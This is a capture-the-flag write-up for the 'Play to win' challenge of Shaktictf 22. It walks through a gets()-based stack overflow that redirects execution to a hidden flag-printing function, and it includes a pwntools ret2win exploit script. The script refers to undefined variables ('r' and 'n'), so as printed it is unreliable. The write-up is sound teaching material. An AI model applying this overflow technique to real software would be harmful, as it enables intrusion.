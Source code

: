 # Shaktictf 22 writeups

## Play to win
DESCRIPTION:

I was playing a game of adding words with my friends, until I added one too long!

Note: The server is running on Ubuntu 20.04.

FLAG FORMAT: shakti{}
### Intended solution:
This is a basic ret2win challenge.

A binary file is given as an attachment, where the usual checks give:

![](https://i.imgur.com/NqZOOmp.png)

![](https://i.imgur.com/BVAl2Cl.png)

Running the file-
![](https://i.imgur.com/3gEnXL2.png)


Decompiling the game fuction in binary gives the following-
```
int game()
{
  int result; // eax
  int v1; // eax
  char v2[2]; // [rsp+8h] [rbp-18h] BYREF
  char s[10]; // [rsp+Ah] [rbp-16h] BYREF
  int v4; // [rsp+14h] [rbp-Ch]
  int v5; // [rsp+18h] [rbp-8h]
  int v6; // [rsp+1Ch] [rbp-4h]

  puts("You think you can do this?");
  result = puts("I don't think so.");
  v5 = 0;
  v4 = 0;
  while ( v5 != 1 )
  {
    printf("Add the word:");
    gets(s);        //gets function here!
    v1 = strlen(s);
    result = v1 + v4;
    v4 = result;
    if ( result == 10000 )
    {
      v5 = 1;
      v6 = 1;
      break;
    }
    puts("Do you want to continue?");
    printf("Yes or No [y/n]:");
    __isoc99_scanf("%s", v2);
    getchar();
    result = (unsigned __int8)v2[0];
    if ( v2[0] == 121 || (result = (unsigned __int8)v2[0], v2[0] == 89) )
    {
      v5 = 0;
    }
    else
    {
      result = (unsigned __int8)v2[0];
      if ( v2[0] == 110 || (result = (unsigned __int8)v2[0], v2[0] == 78) )
        v5 = 1;
      else
        result = puts("Wrong input.");
    }
  }
  if ( v6 == 1 )
  {
    winfunc();
    exit(0);
  }
  return result;
}
```
The basic objective of the game is to add words till the combined length of them all reaches 10000, upon which the game re-directs to a winfunc(), where it prints :
 ```
Ah well, you did win afterall.
I guess congratlations are in order.
```
 On opening the file in gdb and observing all the functions-

![](https://i.imgur.com/hBilDaC.png)

We see that there are two win fuctions here, winfunc and reallywin.And reallywin shows:
```
void __noreturn reallywin()
{
  puts("I may have underestimated you");
  puts("You win!");
  system("cat flag.txt");
  exit(0);
}
```
So basically you just have to redirect the control flow of the rip to reallywin. We have a gets fuction here, so we can overflow and overwrite rip.

Now as stack is 16 bit aligned, it took 30 bytes of data to overwrite the buffer and we have to use the ret gadget to return back to the stack and overwrite rip with address of `reallywin`


Exploit:

```python
from pwn import *
elf = ELF("game")
io=process(elf.path)
ret = 0x40101a # Used to align stack

win = elf.symbols['reallywin']

#Fill the Buffer with 30 A's --> overwrite return address with ret gadget to align the stack --> then address of the reallywin function
payload = b"A"*30 + p64(ret) + p64(win)
r.sendline(payload)
r.sendline(n) #to pass last check
r.interactive()
```
This gives the flag:
`shakti{G0od_joB_5olviNg_Thi5_1}`
